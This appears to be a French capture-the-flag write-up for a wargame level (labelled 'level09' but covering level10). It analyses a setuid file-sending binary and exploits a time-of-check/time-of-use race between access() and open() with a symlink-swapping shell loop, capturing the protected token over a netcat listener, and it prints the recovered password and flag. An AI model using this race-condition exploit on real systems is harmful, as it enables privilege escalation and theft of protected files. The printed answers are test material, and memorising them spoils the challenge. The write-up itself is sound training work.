 # level09

1) Fichiers trouvés dans `/home/level10/` :

```bash
token  level10
```

2) Analyse du fichier `token` et du binaire `level10`

Nous n'avons aucun droit sur `token`.
Nous allons donc inspecter le binaire : 
```bash
open
access
strerror
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```
Plusieurs choses nous interesse : 
- - Le script permet d'envoyer un fichier auquel on a acces vers un host distant.
```bash
%s file host
sends file to host if you have access to it
```
- - Nous pouvont egalement voir que l'executable utilie `setuid` ce qui signifie qu'il s'executera avec les droits de `flag10`.


- - La faille est donc que `access()` utilise l'uid de l'utilisateur actuel, il faut donc reussir a changer le lien symbolique de `token` entre `access()` et `open()`.

3) Utilisation de l'executable :
- - Nous allons receptionner les fichier depuis un autre utilisateur en ecoute sur le port 6969 (information presente dans le retour de `strings`)
```bash
[...]
Connecting to %s:6969 ..
[...] 
```
- - Donc dans un autre terminal nous allons ecouter sur le port 6969 avce netcat :
```bash
nc -lv 6969
```

- L'utilisateur distant est donc entrain d'ecouter sur le port 6969.

4) Exploitation pour récupérer le password :

- Nous allons creer un lien symbolique vers le token :
```bash
ln -s /home/user/level10/token /tmp/link
```

- - Ensuite nous allons creer un script qui vas en boucle alterner la cible du lien symbolique vers un fichier useless ainsi que vers `token` tout en lancant en meme temps dans une autre boucle dans en attendant que ce que nous souhaitons ce produise.
```bash
echo "dummy" > /tmp/dummy

while true; do
    ln -sf /tmp/dummy /tmp/link 2>/dev/null
    ln -sf /home/user/level10/token /tmp/link 2>/dev/null
done &

while true; do
    ./level10 /tmp/link 127.0.0.1 >/dev/null 2>&1
done
```
```bash
#Link > Dummy
#access() OK
#Link > token
#open > token
```

```bash
nc -lv 6969
Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
woupa2yuojeeaaed06riuj63c
```

- - `woupa2yuojeeaaed06riuj63c`

```bash
su flag10
woupa2yuojeeaaed06riuj63c
```
5) Token decouvert : 

```bash
feulo4b72j7edeahuete3no7c
```



